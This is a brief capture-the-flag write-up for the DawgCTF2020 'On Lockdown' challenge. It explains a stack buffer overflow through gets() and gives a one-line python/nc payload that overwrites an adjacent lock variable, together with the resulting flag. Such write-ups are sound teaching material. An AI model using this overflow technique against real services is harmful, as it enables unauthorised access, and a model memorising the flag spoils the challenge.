 # On Lockdown | DawgCTF2020

## Problem
Better than locked up I guess
nc ctf.umbccd.io 4500

I made this really cool flag but Governor Hogan put it on lockdown
Can you convince him to give it to you?

## Solution
1. Review code the code in onlockdown.c
2. Notice it's using gets, with buf and lock initialized together:

```c
	int lock = 0;
	char buf[64];
```

3. Buffer overflow to change the lock value. Can be done in pwntools, or just via the following, which was what I did:

```bash
$ python -c "print('a' * 64 + '\xBE\xBA\xAD\xDE')" | nc ctf.umbccd.io 4500
```
This gives the flag.
DawgCTF{s3ri0u$ly_st@y_h0m3}

Also did a pwntools script - solve.py after this just for practice.